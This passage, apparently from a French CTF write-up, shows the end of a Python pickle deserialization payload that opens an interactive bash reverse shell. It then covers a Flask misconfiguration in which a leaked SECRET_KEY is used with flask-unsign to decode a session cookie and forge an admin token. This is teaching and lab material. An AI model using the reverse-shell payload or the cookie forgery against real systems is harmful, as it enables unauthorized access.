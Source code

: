 ```
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"]);
'''
    
    def __reduce__(self):
        return (exec, (self.subject,))

payload = pickle.dumps(ReverseShell())
encoded_payload = base64.urlsafe_b64encode(payload).decode()
print(encoded_payload)
```

![alt text](img/flag.png)

Normalement le flag etait dans ce fichier :D

## Flag 10: Security Misconfiguration
### Information:
- http://REDACTED
- guest:guest

Il n'y a rien dans l'application, le code source montre
```html
  
```
Je vais donc dans /admin, sa me redirige vers /home. 
Je me logout, et je vais sur /admin
Encore une fois je suis sur le stack trace de FLASK
```
app.config["SECRET_KEY"] = "77c4a9f25dc85c64473800c4db4260c8d2dbc748"
```
Bon ben je vais me forger un jeton pour admin!
```
owasp_sec_misconfig_s=eyJ1c2VyIjoiZ3Vlc3QifQ.ZyJf9g.NmXD1NjWuNBYbTPWVmWP6Sd92_A
```

```bash
flask-unsign --decode --cookie eyJ1c2VyIjoiZ3Vlc3QifQ.ZyJf9g.NmXD1NjWuNBYbTPWVmWP6Sd92_A
{'user': 'guest'}
```
